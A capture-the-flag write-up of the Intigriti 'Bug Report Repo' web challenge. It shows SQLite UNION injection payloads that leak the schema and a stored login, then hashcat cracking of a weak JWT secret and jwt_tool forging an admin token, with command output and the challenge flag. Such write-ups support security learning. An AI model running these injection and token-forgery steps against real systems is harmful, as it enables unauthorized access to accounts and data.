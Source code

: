 # Bug Report Repo [64 Solves]

## Description

> I started my own bug bounty platform! The UI is in the early stages but we've already got plenty of submissions. I wonder why I keep getting emails about a "critical" vulnerability report though, I don't see it anywhere on the system 😕
>
> Author: CryptoCat
>
> <https://bountyrepo.ctf.intigriti.io> || <https://bountyrepo2.ctf.intigriti.io>

No attachments.

## Flag

INTIGRITI{w3b50ck37_5ql1_4nd_w34k_jw7}

## Solution

We can input a bug report ID into the input form and are returned the name who reported it.
For example, an input `1` returns `Bug report from Alice is Open`:

![Bug_Report_Repo_1.png](img/Bug_Report_Repo_1.png)

An input `11` returns `Bug report from ethical_hacker is Open`, but an input `1||1` returns also the same value.
In other words, `1||1` is evaluated to `11`.
Additionally, `true||true` is evaluated to `11`.
This is similar to how Sqlite3 works [^1].

Tested in kali:

```console
$ sqlite3
SQLite version 3.43.2 2023-10-10 12:14:04
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> SELECT 1;
1
sqlite> SELECT 1||1;
11
sqlite> SELECT true;
1
sqlite> SELECT true||true;
11
```

I guess that the Web application has SQL Injection, and try to `UNION SELECT` payload.
I got that `0 UNION SELECT "1","2","3","4","5","6","7","8"` shows `Bug report from 7 is 6`.
`UNION SELECT` SQL Injection was successfull.
All I have to do is to leak the information.

I referes [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) for SQLi payload.

- Input: `0 UNION SELECT "1","2","3","4","5","6",sqlite_version(),"8"`, Output: `Bug report from 3.41.1 is 6`

- Input: `0 UNION SELECT "1","2","3","4","5","6",sql,"8" FROM sqlite_schema`, Output: `Bug report from CREATE TABLE bug_reports ( id INTEGER PRIMARY KEY NOT NULL, category VARCHAR NOT NULL, description TEXT NOT NULL, severity VARCHAR NOT NULL, cvss_score DECIMAL NOT NULL, status VARCHAR NOT NULL, reported_by VARCHAR NOT NULL, reported_date DATE DEFAULT CURRENT_TIMESTAMP NOT NULL) is 6
`

beautified `CREATE TABLE` query:

```sql
CREATE TABLE bug_reports (
  id INTEGER PRIMARY KEY NOT NULL, category VARCHAR NOT NULL, 
  description TEXT NOT NULL, severity VARCHAR NOT NULL, 
  cvss_score DECIMAL NOT NULL, status VARCHAR NOT NULL, 
  reported_by VARCHAR NOT NULL, reported_date DATE DEFAULT CURRENT_TIMESTAMP NOT NULL
)
```

- Input: `0 UNION SELECT "1","2","3","4","5","6",id||"---"||description||"---"||cvss_score||"---"||reported_by,"8" FROM bug_reports WHERE id=11`, Output: `Bug report from 11---crypt0:c4tz on /4dm1n_z0n3, really?!---10---ethical_hacker is 6`

I guess that `crypt0:c4tz` is credential and `/4dm1n_z0n3` is URL path.
Accessed <https://bountyrepo.ctf.intigriti.io/4dm1n_z0n3/>, got the following login form:

![Bug_Report_Repo_2.png](img/Bug_Report_Repo_2.png)

Input the Username and Password form to crypt0 and c4tz respectively, got the Welcome page.

![Bug_Report_Repo_3.png](img/Bug_Report_Repo_3.png)

Next, I need to be the admin.
Looking at the request and response headers to see if I could do anything, and found a JWT token in cookie.

```text
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNyeXB0MCJ9.zbwLInZCdG8Le5iH1fb5GHB5OM4bYOm8d5gZ2AbEu_I
```

Looking at the JWT by [jwt_tools](https://github.com/ticarpi/jwt_tool), its' JWT HS256.
I cracked it and it was signed by weak password `catsarethebest`.

```console
$ JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNyeXB0MCJ9.zbwLInZCdG8Le5iH1fb5GHB5OM4bYOm8d5gZ2AbEu_I

$ python3 ~/tools/jwt_tool/jwt_tool.py $JWT

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi

Original JWT:

=====================
Decoded Token Values:
=====================

Token header values:
[+] alg = "HS256"
[+] typ = "JWT"

Token payload values:
[+] identity = "crypt0"

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------


$ hashcat -m 16500 $JWT /usr/share/wordlists/rockyou.txt --quiet
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNyeXB0MCJ9.zbwLInZCdG8Le5iH1fb5GHB5OM4bYOm8d5gZ2AbEu_I:catsarethebest
```

I re-signed it with identity to admin, set it as a cookie, and accessed the same URL.

```console
$ python3 ~/tools/jwt_tool/jwt_tool.py $JWT -I -pc identity -pv admin --sign hs256 -p catsarethebest

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.6                \______|             @ticarpi

Original JWT:

jwttool_02990f7554d0eb4e5338cdb8e2f6f4f1 - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImFkbWluIn0.3xH8a2FskQJ3afYZeJCtwln4CRrwh4nidEy7S6fJoA0
```

![Bug_Report_Repo_flag.png](img/Bug_Report_Repo_flag.png)

Got the flag.

## Footnotes

[^1]: [SQL Language Expressions](https://www.sqlite.org/lang_expr.html#operators_and_parse_affecting_attributes)
    > The || operator is "concatenate" - it joins together the two strings of its operands.
